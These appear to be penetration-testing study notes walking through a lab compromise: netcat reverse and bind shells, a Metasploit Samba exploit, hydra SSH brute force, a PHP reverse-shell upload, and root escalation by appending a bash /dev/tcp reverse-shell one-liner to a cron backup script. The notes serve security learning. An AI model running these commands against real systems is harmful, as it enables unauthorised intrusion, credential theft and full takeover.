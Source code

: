 

#### Types of Shell Connections:

- Reverse Shell:
	- A Reverse Shell is a process where the target connects to the attackbox/hacker's machine and establishes a shell connection
	- Reverse shell is performed used Netcat with below example syntax:
		- AttackBox/Hacker's machine: `nc -lvp 4444`
			- nc - netcat
			- -l - listen
			- -v - verbose
			- -p - port 
		- Target machine: `nc {ip-address} {port} -e /bin/sh` (Linux)
			- `nc {ip-address} {port} -e command.exe` (windows)
				- nc- netcat
				- -e - establish
- Bind Shell:
	- A Bind Shell is a process where the attacker/hacker machine connects to the target machine to the opened port
		- Bind shell is performed when there is a open port in target machine, which is opened by a exploit for example 4444 port
			- Target Machine: `nc -lvp 4444 -e /bin/sh`
			- Attacker Machine: `nc {ip-address} {port}`

#### Types of Payloads:

- Non-Staged Payload:
	- Sending exploit shellcode all at once
	- Larger in size and wont work always
		- Ex:
			- `windows/meterpreter_reverse_tcp`
- Staged Payload:
	- Sending payload in stages
	- Can be less stable
		- Ex:
			- `windows/meterpreter/reverse_tcp`


#### Gaining Root with Metasploit:

-  Just a demo exploit procedure to gain root shell access to a vulnerable machine through metasploit
	- Step-1:
		- Check which exploit is feasible for the machine, after gathering all the information in the reconnaissance and scanning phases, as for the example, we can use smb exploit to gain access to the machine
		- Start metasploit using
			- `msfconsole`
		- Search for the exploit (ex: trans2open)
			- `search trans2open`
		- Once you find the machine OS use that module from metasploit
			- `use 0/1/2/exploit/linux/samba/trans2open`
		- Once the exploit module is selected, use the options command to check for the target host and the payload options
			- `options`
		- Set the RHOST (Target machine {ip-address})
			- `set RHOSTS {ip-address}`
		- Set the payload as well, if we want to proceed with Staged Payload or Non-Staged Payload
			- `set payload linux/x86/shell_reverse_tcp`
		- Once all the options are set  as required, run the exploit using the exploit command:
			- `exploit`
		- Once the exploit is successful,  a shell connection will be established to the target machine and you can confirm the connection, by typing 'whoami


#### Brute Force Attack (SSH):

 - Brute force attack is trial and error to guess passwords, encryption keys, and other login credentials. As per below example, we will brute forcing SSH login to the vulnerable machine with 'hydra' and 'metasploit'
	- Syntax for **hydra**:
		- `hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://{ip-address} -t 4 -V`
			- -l is for user
			- -P - this is for the wordlists path for the passwords
			- -t - threads count
			- -V - Verbose
	- **Metasploit** (msfconsole):
		- Step 1:
			- Search for ssh
				- `search ssh`
			- After finding the module in auxiliary section, use the module:
				- `use auxiliary/scanner/ssh/ssh_login`
			- Set the options as required:
				- `set USERNAME root`
				- `set RHOSTS {ip-address}`
				- `set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt`
				- `set THREADS 10`
				- `set VERBOSE True`
			- Once the options are set, run the module
				- `run`


#### Exploiting a Vulnerable Webserver:

- Web page is hosted in Apache server (Apache/2.4.38) and has a student academy website hosted with the URL: http://{ip-address}/academy
- After navigating the website, a upload button is observed in the student profile update page, to update the student's profile picture.
- As the upload functionality doesn't have any file format constrains, we are going to run an exploit using php to do a reverse shell connection.
	- https://github.com/pentestmonkey/php-reverse-shell
	- After getting the PHP exploit from above link for reverse shell, copy the exploit from github paste into a php file, into your local and update the ip-address in the exploit to the attacker's machine, so that the target machine to enable a reverse shell connection to the attacker's machine. we can change the port is required.
	- Once we have the file ready, before uploading the file, enable listening the attacker machine as ex:
		- `nc -nvlp 1234`
	- Once the attacker machine is listening, upload the exploit to the website and wait for the php exploit to run, once it ran, we can see that the port attacker machine is listening to, now have access to the target's shell.
- We are in the target machine, but we may not be a root user, to do privilege escalation, check on the privilege escalation section.


#### Privilege Escalation of a vulnerable target machine:

- After gaining access to the target machine, we are going to escalate our privilege to root, for that we will be using a tool called 'linpeas'
	- https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS
- This tool helps to check in linux machine to find a possibility for privilege escalation
- We copying the linpeas.sh file from the github, we will placing the file in a folder, easier to transfter the file to the target machine.
- Once we have the file, we will hosting a server in the folder, we have the file using python
	- `python3 -m http.server 80`
- Once we have server up, we can go back to the shell we have opened from target machine, navigate to the tmp folder use the command.
	- `wget http://{ip-address}/linpeas.sh`
	- This downloads the linpeas file to the target machine.
- Once we have the exploit code in the target machine, we need to make the file executable using the below command:
	- `chmod +x linpeas.sh`
- Once done, execute the file `./linpeas.sh`, this will provide a lot of information regarding the privilege escalation.
- After running, the PE exploit in the target machine, we observe that, we observed a sql username and password used in the phpmyadmin config file, which can be used to login to the database 
- We have observed, that we have a different user who has admin privileges using the `cat /etc/passwd`
- Using the SQL password, we received from the linpeas.sh exploit, we will try to ssh to the target machine with the newly found admin privileged user.
- After opening a SSH with the username and password we observed in the php config, we have observed that a backup script is running with the help of a cron job, with escalated privilege, so using the backup script, we will try to gain root access to the machine
- We have use `crontab -l` to check if there are any cron jobs running for the user
	- `crontab -u root -l` to check if any cron job running for the user provided 
- We can also check if there is any system dtimers and see if we have any script running for the backup
	- Using `systemctl list-timers`
- To check, all of the process running on the machine, we can use a tool called 'pspy', download it from github (https://github.com/DominicBreuker/pspy) and place it in the transfers folder of the attacker machine and same as earlier, go to the target's  ssh and go to the tmp and use the wget to grab the file using server running.
	- `wget http://{ip-address}/pspy64`
	- After that provide the execute permission with the chmod command.
		- `chmod +x pspy64`
		- Execute the file using `./pspy64`
	- This will show, all of the process running in the target machine and as thought we have a cron job running with escalated privilege, is executing the backup script
- We will be using this to our advantage, to gain root privileged access
	- We will be using  a BASH script one liner for the reverse shell from the cheat sheet (https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
	- We will be updating the one liner `bash -i >& /dev/tcp/{ip-address}/8081 0>&1` into the backup.sh script. {Ip-address} is attacker machine ip-address
	- We can give any port as required and once we have updated the script, in attacker machine, we will be listening for the port 8081, using the netcat command:
		- `nc -nvlp 8081`
	- Once the cron job runs the backup.sh script, we will be provided with shell access from the target machine with root privileged access using reverse shell exploit.
